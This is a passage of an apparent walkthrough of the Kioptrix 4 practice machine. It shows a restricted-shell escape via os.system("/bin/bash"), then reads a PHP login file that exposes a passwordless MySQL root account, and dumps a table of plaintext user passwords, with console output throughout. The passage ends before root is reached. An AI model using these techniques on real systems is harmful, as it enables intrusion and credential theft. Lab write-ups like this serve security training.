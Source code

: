 ```console
-rw-r--r-- 1 robert robert 2940 2012-02-04 18:05 .bashrc
-rw-r--r-- 1 robert robert    5 2012-02-04 18:59 .lhistory
-rw-r--r-- 1 robert robert  586 2012-02-04 18:05 .profile
robert:~$ echo os.system("/bin/bash")
robert@Kioptrix4:~$
```

_____________________________________________________________________________

## 5\. Getting root

We already know there's a MySQL database running, I navigated to `/var/www` to check the php files.

```console
robert@Kioptrix4:/var/www$ cat checklogin.php
<?php
ob_start();
$host="localhost"; // Host name
$username="root"; // Mysql username
$password=""; // Mysql password
$db_name="members"; // Database name
$tbl_name="members"; // Table name
```

Nice! Username is root with no password.

```console
robert@Kioptrix4:/var/www$ mysql -u root -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 41
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| members            |
| mysql              |
+--------------------+
3 rows in set (0.00 sec)

mysql> use members;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-------------------+
| Tables_in_members |
+-------------------+
| members           |
+-------------------+
1 row in set (0.00 sec)

mysql> select * from members;
+----+----------+-----------------------+
| id | username | password              |
+----+----------+-----------------------+
|  1 | john     | MyNameIsJohn          |
|  2 | robert   | ADGAdsafdfwt4gadfga== |
+----+----------+-----------------------+
```